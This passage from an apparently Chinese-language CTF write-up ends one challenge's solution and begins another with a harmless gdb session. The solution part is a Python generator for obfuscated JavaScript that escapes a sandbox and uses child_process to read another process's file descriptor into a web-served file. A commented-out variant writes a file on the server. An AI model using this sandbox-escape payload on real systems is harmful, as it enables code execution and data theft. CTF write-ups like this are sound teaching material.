 ```python
register_string(16, "TypeError: Cannot read propert")
result += '($16={}[$5][$5](`${$14}{[][0][0]}${$15}($){${$9} $.${$8}()}`)())-'

register_string(18, 'fromCharCode')
result += '($18=$2[0]+$1[1]+$5[1]+$17[11]+$16[11]+$15[4]+$2[1]+$1[1]+$16[11]+$5[1]+$0[2]+$0[3])-'

result += '($={}[$5][$5](`${$9} ${$7}.${$18}`)())-'

counter = 19
def solve_char(c):
    global result
    global counter
    if c in chars:
        return chars[c]
    cc = c
    c = ord(c)
    result += f'(${counter}=$({c}))-'
    chars[cc] = f'${counter}[0]'
    counter += 1
    return chars[cc]

def solve_string(s_in):
    global result
    global counter
    s_out = ''
    for c in s_in:
        s_out += solve_char(c) + '+'
    s_out = s_out[:-1]
    result += f'(${counter}={s_out})-'
    counter += 1
    return f'${counter-1}'

code = solve_string('const n=require;const{spawn:o}=n("child_process");const s=o("cat",["/proc/33/fd/20"]);let t="";s.stdout.on("data",n=>{t+=n});s.on("close",o=>{const s=n("fs");s.writeFile("readme.html",t,()=>{})})')
#code = solve_string('const n=require;const s=n("fs");s.writeFile("/usr/src/app/data/pwn.json","\'\'",()=>{})')
result += '{}[$5][$5](`${$5}.${$5}(\\`${' + code + '}\\`)()`)()'

result = '(' + result + ')'
print(result)
print(result.replace('+', "%2B").replace('==', '%3D='))
```

这里其实产生的字符串中明显还有很多冗余，其长度可以进一步压缩，但因为已经够用了就没有进一步修改代码。

## 射水鱼

直接带调试信息编译一下看看gdb有什么输出
```text
linux@linux ~/test/7 % gcc hello.c -o hello -g
linux@linux ~/test/7 % gdb -q ./hello
Reading symbols from ./hello...
(gdb) b main
Breakpoint 1 at 0x111d: file hello.c, line 5.
(gdb) r
Starting program: /home/linux/test/7/hello

Breakpoint 1, main () at hello.c:5
5	    return 0;
(gdb) c
Continuing.
[Inferior 1 (process 184732) exited normally]
```